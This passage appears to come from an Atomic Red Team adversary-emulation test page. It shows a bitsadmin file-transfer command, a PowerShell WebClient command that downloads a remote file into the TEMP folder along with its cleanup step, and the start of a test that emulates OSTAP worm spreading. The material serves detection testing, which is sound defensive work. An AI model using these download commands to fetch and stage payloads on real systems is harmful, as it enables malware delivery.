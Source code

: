 
```cmd
C:\Windows\System32\bitsadmin.exe /transfer #{bits_job_name} /Priority HIGH #{remote_file} #{local_path}
```






<br/>
<br/>

## Atomic Test #10 - Windows - PowerShell Download
This test uses PowerShell to download a payload.
This technique is used by multiple adversaries and malware families.

**Supported Platforms:** Windows


**auto_generated_guid:** 42dc4460-9aa6-45d3-b1a6-3955d34e1fe8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | URL of file to copy | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| destination_path | Destination path to file | path | $env:TEMP&#92;Atomic-license.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
(New-Object System.Net.WebClient).DownloadFile("#{remote_file}", "#{destination_path}")
```

#### Cleanup Commands:
```powershell
Remove-Item #{destination_path} -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #11 - OSTAP Worming Activity
OSTap copies itself in a specfic way to shares and secondary drives. This emulates the activity.

**Supported Platforms:** Windows


**auto_generated_guid:** 2ca61766-b456-4fcf-a35a-1233685e1cad

